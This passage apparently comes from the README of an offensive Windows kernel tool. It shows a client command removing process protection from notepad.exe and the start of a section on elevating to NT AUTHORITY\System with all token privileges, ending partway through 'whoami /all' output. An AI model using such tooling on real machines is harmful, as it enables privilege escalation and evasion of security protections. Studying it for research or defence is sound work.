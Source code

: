 ```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --unprotect
[+] Process unprotected successfully 2104
```

![Protect](./notepad_unprotect.png)

## Elevate to NT AUTHORITY\\System and Enable All Token Privileges

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION

================== ==============================================
windows-10-vm\user S-1-5-21-3694103140-4081734440-3706941413-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
```